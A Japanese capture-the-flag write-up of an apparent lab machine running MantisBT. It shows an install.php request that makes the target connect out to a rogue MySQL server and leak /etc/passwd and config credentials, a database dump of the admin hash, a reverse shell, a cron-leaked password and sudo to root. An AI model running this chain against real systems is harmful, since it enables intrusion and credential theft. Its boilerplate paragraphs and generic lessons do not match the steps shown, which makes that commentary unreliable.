

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Linux |
| 難易度 | 記録なし |
| 攻撃対象 | Webアプリケーションおよび公開ネットワークサービス |
| 主な侵入経路 | Web RCE (CVE-2019-15715) |
| 権限昇格経路 | ローカル列挙 → 設定ミスの悪用 → root |

## 認証情報

認証情報なし。

## 偵察

---
💡 なぜ有効か
このフェーズでは到達可能な攻撃対象をマッピングし、攻撃が最も成功しやすい箇所を特定します。正確なサービスおよびコンテンツの探索により、無闇なテストを減らし、ターゲットを絞った後続アクションを促進します。

## 初期足がかり

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 50 -r --timeout 3 --no-state -s 200,301 -e -E -u http://$ip
```

```bash
✅[22:51][CPU:46][MEM:77][TUN0:192.168.45.166][/home/n0z0]
🐉 > feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 50 -r --timeout 3 --no-state -s 200,301 -e -E -u http://$ip


 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.12.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.178.204
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
 👌  Status Codes          │ [200, 301]
 💥  Timeout (secs)        │ 3
 🦡  User-Agent            │ feroxbuster/2.12.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💰  Collect Extensions    │ true
 💸  Ignored Extensions    │ [Images, Movies, Audio, etc...]
 🏁  HTTP methods          │ [GET]
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       19l       88w     1571c http://192.168.178.204/fonts/
200      GET      104l      381w     5807c http://192.168.178.204/bugtracker/signup_page.php
200      GET       90l      313w     5194c http://192.168.178.204/bugtracker/login_page.php?error=1&return=index.php
200      GET       90l      297w     5078c http://192.168.178.204/bugtracker/login_page.php?return=%2Fbugtracker%2Fmy_view_page.php
200      GET       90l      297w     5059c http://192.168.178.204/bugtracker/login_page.php

```

http://192.168.178.204/bugtracker/admin/install.php が見つかった
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 50 -r --timeout 3 --no-state -s 200,301 -e -E -u http://192.168.178.204/bugtracker/admin
```

```bash
✅[3:15][CPU:41][MEM:79][TUN0:192.168.45.166][/home/n0z0]
🐉 > feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 50 -r --timeout 3 --no-state -s 200,301 -e -E -u http://192.168.178.204/bugtracker/admin

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.12.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.178.204/bugtracker/admin
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
 👌  Status Codes          │ [200, 301]
 💥  Timeout (secs)        │ 3
 🦡  User-Agent            │ feroxbuster/2.12.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💰  Collect Extensions    │ true
 💸  Ignored Extensions    │ [Images, Movies, Audio, etc...]
 🏁  HTTP methods          │ [GET]
 📍  Follow Redirects      │ true
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET      104l      381w     5807c http://192.168.178.204/bugtracker/signup_page.php
200      GET       90l      297w     5078c http://192.168.178.204/bugtracker/login_page.php?return=%2Fbugtracker%2Fmy_view_page.php
200      GET       90l      313w     5194c http://192.168.178.204/bugtracker/login_page.php?error=1&return=index.php
200      GET       90l      297w     5077c http://192.168.178.204/bugtracker/login_page.php?return=%2Fbugtracker%2Fadmin%2Findex.php
200      GET      185l      633w     8749c http://192.168.178.204/bugtracker/admin/install.php

```


*キャプション：このフェーズで取得したスクリーンショット*


*キャプション：このフェーズで取得したスクリーンショット*

https://github.com/allyshka/Rogue-MySql-Server/tree/master

*キャプション：このフェーズで取得したスクリーンショット*

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
php roguemysql.php
```

```bash
❌[3:27][CPU:50][MEM:81][TUN0:192.168.45.166][...Mantis/Rogue-MySql-Server]
🐉 > php roguemysql.php
```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
curl 'http://192.168.178.204/bugtracker/admin/install.php?install=3&hostname=192.168.45.166'
```

```bash
❌[3:28][CPU:34][MEM:81][TUN0:192.168.45.166][/home/n0z0]
🐉 > curl 'http://192.168.178.204/bugtracker/admin/install.php?install=3&hostname=192.168.45.166'
```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
php roguemysql.php
```

```bash
❌[3:27][CPU:50][MEM:81][TUN0:192.168.45.166][...Mantis/Rogue-MySql-Server]
🐉 > php roguemysql.php
Enter filename to get [/etc/passwd] >
[.] Waiting for connection on 0.0.0.0:3306
[+] Connection from 192.168.178.204:36320 - greet... auth ok... some shit ok... want file...
[+] /etc/passwd from 192.168.178.204:36320:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
mantis:x:1000:1000::/home/mantis:/bin/bash


Enter filename to get [/etc/passwd] >

```


*キャプション：このフェーズで取得したスクリーンショット*

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
php roguemysql.php
```

```bash
✅[3:49][CPU:22][MEM:76][TUN0:192.168.45.166][...Mantis/Rogue-MySql-Server]
🐉 > php roguemysql.php
Enter filename to get [/etc/passwd] > /var/www/html/bugtracker/config/config_inc.php
[.] Waiting for connection on 0.0.0.0:3306
[+] Connection from 192.168.178.204:48452 - greet... auth ok... some shit ok... want file...
[+] /var/www/html/bugtracker/config/config_inc.php from 192.168.178.204:48452:
<?php
$g_hostname               = 'localhost';
$g_db_type                = 'mysqli';
$g_database_name          = 'bugtracker';
$g_db_username            = 'root';
$g_db_password            = 'SuperSequelPassword';

$g_default_timezone       = 'UTC';

$g_crypto_master_salt     = 'OYAxsrYFCI+xsFw3FNKSoBDoJX4OG5aLrp7rVmOCFjU=';


Enter filename to get [/var/www/html/bugtracker/config/config_inc.php] >

```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
curl 'http://192.168.178.204/bugtracker/admin/install.php?install=3&hostname=192.168.45.166'
```

```bash
❌[3:47][CPU:21][MEM:77][TUN0:192.168.45.166][/home/n0z0]
🐉 > curl 'http://192.168.178.204/bugtracker/admin/install.php?install=3&hostname=192.168.45.166'
```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
mysql -h $ip -u root --port=3306 --user=root --password=SuperSequelPassword --skip-ssl
```

```bash
❌[3:53][CPU:16][MEM:77][TUN0:192.168.45.166][/home/n0z0]
🐉 > mysql -h $ip -u root --port=3306 --user=root --password=SuperSequelPassword --skip-ssl
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 23
Server version: 10.3.34-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| bugtracker         |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
MariaDB [(none)]> use bugtracker
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [bugtracker]> SHOW TABLES;
+-----------------------------------+
| Tables_in_bugtracker              |
+-----------------------------------+
| mantis_api_token_table            |
| mantis_bug_file_table             |
| mantis_bug_history_table          |
| mantis_bug_monitor_table          |
| mantis_bug_relationship_table     |
| mantis_bug_revision_table         |
| mantis_bug_table                  |
| mantis_bug_tag_table              |
| mantis_bug_text_table             |
| mantis_bugnote_table              |
| mantis_bugnote_text_table         |
| mantis_category_table             |
| mantis_config_table               |
| mantis_custom_field_project_table |
| mantis_custom_field_string_table  |
| mantis_custom_field_table         |
| mantis_email_table                |
| mantis_filters_table              |
| mantis_news_table                 |
| mantis_plugin_table               |
| mantis_project_file_table         |
| mantis_project_hierarchy_table    |
| mantis_project_table              |
| mantis_project_user_list_table    |
| mantis_project_version_table      |
| mantis_sponsorship_table          |
| mantis_tag_table                  |
| mantis_tokens_table               |
| mantis_user_pref_table            |
| mantis_user_print_pref_table      |
| mantis_user_profile_table         |
| mantis_user_table                 |
+-----------------------------------+

MariaDB [bugtracker]> SELECT * FROM mantis_user_table;
+----+---------------+----------+----------------+----------------------------------+---------+-----------+--------------+-------------+-----------------------------+--------------------+------------------------------------------------------------------+------------+--------------+
| id | username      | realname | email          | password                         | enabled | protected | access_level | login_count | lost_password_request_count | failed_login_count | cookie_string                                                    | last_visit | date_created |
+----+---------------+----------+----------------+----------------------------------+---------+-----------+--------------+-------------+-----------------------------+--------------------+------------------------------------------------------------------+------------+--------------+
|  1 | administrator |          | root@localhost | c7870d0b102cfb2f4916ff04e47b5c6f |       1 |         0 |           90 |           5 |                           0 |                  0 | Tgl-0N5B643JKwIwNgD9s5dKRU_gdBsXawwO7p3ZaGM2ZI4gckyB84AmBRq-IFA7 | 1651296959 |   1651292492 |
+----+---------------+----------+----------------+----------------------------------+---------+-----------+--------------+-------------+-----------------------------+--------------------+------------------------------------------------------------------+------------+--------------+
1 row in set (0.092 sec)

```


*キャプション：このフェーズで取得したスクリーンショット*


*キャプション：このフェーズで取得したスクリーンショット*


*キャプション：このフェーズで取得したスクリーンショット*

https://medium.com/@NullEsc/proving-grounds-mantis-d044d68bcf6c

*キャプション：このフェーズで取得したスクリーンショット*


*キャプション：このフェーズで取得したスクリーンショット*

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
nc -lvnp 443
```

```bash
❌[4:26][CPU:21][MEM:77][TUN0:192.168.45.166][/home/n0z0]
🐉 > nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.204] 37774
bash: cannot set terminal process group (1218): Inappropriate ioctl for device
bash: no job control in this shell
www-data@mantis:/var/www/html/bugtracker$

```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
cat /home/mantis/local.txt
```

```bash
/home/mantis/local.txt
www-data@mantis:/var/www/html/bugtracker$ cat /home/mantis/local.txt
8ce69220a6cfd2449c719353503f6a30

```

💡 なぜ有効か
初期足がかりのステップでは、発見した脆弱性を連鎖させてターゲットへの実行制御を確立します。有効な足がかり技術は、コマンド実行またはインタラクティブなシェルのコールバックによって検証されます。

## 権限昇格

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
2026/02/19 19:44:40 CMD: UID=0     PID=1      | /sbin/init maybe-ubiquity
2026/02/19 19:45:01 CMD: UID=1000  PID=40278  | bash /home/mantis/db_backups/backup.sh
2026/02/19 19:45:01 CMD: UID=1000  PID=40277  | /bin/sh -c bash /home/mantis/db_backups/backup.sh

```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
2026/02/20 01:56:01 CMD: UID=1000  PID=51750  | mysqldump -u bugtracker -pBugTracker007 bugtracker
2026/02/20 01:56:01 CMD: UID=1000  PID=51749  | bash /home/mantis/db_backups/backup.sh
2026/02/20 01:56:01 CMD: UID=1000  PID=51748  | /bin/sh -c bash /home/mantis/db_backups/backup.sh
2026/02/20 01:56:01 CMD: UID=0     PID=51747  | /usr/sbin/CRON -f
2026/02/20 01:57:01 CMD: UID=1000  PID=51778  | mysqldump -u bugtracker -px xxxxxxxxxxx bugtracker
2026/02/20 01:57:01 CMD: UID=1000  PID=51777  | bash /home/mantis/db_backups/backup.sh
2026/02/20 01:57:01 CMD: UID=1000  PID=51776  | /bin/sh -c bash /home/mantis/db_backups/backup.sh
2026/02/20 01:57:01 CMD: UID=0     PID=51775  | /usr/sbin/CRON -f
2026/02/20 01:58:01 CMD: UID=1000  PID=51807  | mysqldump -u bugtracker -px xxxxxxxxxxx bugtracker
2026/02/20 01:58:01 CMD: UID=1000  PID=51806  | bash /home/mantis/db_backups/backup.sh
2026/02/20 01:58:01 CMD: UID=1000  PID=51805  | /bin/sh -c bash /home/mantis/db_backups/backup.sh
2026/02/20 01:58:01 CMD: UID=0     PID=51804  | /usr/sbin/CRON -f
2026/02/20 01:59:01 CMD: UID=1000  PID=51835  | bash /home/mantis/db_backups/backup.sh
2026/02/20 01:59:01 CMD: UID=1000  PID=51834  | bash /home/mantis/db_backups/backup.sh
2026/02/20 01:59:01 CMD: UID=1000  PID=51833  | /bin/sh -c bash /home/mantis/db_backups/backup.sh
2026/02/20 01:59:01 CMD: UID=0     PID=51832  | /usr/sbin/CRON -f
2026/02/20 02:00:01 CMD: UID=1000  PID=51862  | bash /home/mantis/db_backups/backup.sh
2026/02/20 02:00:01 CMD: UID=1000  PID=51861  | /bin/sh -c bash /home/mantis/db_backups/backup.sh

```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
su mantis
sudo -l
```

```bash
www-data@mantis:/tmp$ su mantis
Password:
mantis@mantis:/tmp$ sudo -l
[sudo] password for mantis:
Matching Defaults entries for mantis on mantis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mantis may run the following commands on mantis:
    (ALL : ALL) ALL
mantis@mantis:/tmp$

```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
sudo su -
cat /root/proof.txt
```

```bash
    (ALL : ALL) ALL
mantis@mantis:/tmp$ sudo su -
root@mantis:~# cat /root/proof.txt
82922492c5f7db0822de96ffee2f9e13

```

💡 なぜ有効か
権限昇格はローカルの設定ミス、安全でないパーミッション、信頼された実行パスに依存します。これらの信頼境界を列挙して悪用することが root レベルのアクセスへの最速ルートです。

## まとめ・学んだこと

- 本番同等の環境でフレームワークのデバッグモードとエラー露出を検証する。
- 特権ユーザーやスケジューラーが実行するスクリプト・バイナリのファイルパーミッションを制限する。
- ワイルドカード展開やスクリプト化可能な特権ツールを避けるため sudo ポリシーを強化する。
- 露出した認証情報と環境ファイルを重要機密として扱う。

### 攻撃フロー

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。



## 参考文献

- CVE-2019-15715: https://nvd.nist.gov/vuln/detail/CVE-2019-15715
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
- feroxbuster: https://github.com/epi052/feroxbuster
- Nuclei: https://github.com/projectdiscovery/nuclei
- GTFOBins: https://gtfobins.org/
- HackTricks Privilege Escalation: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html
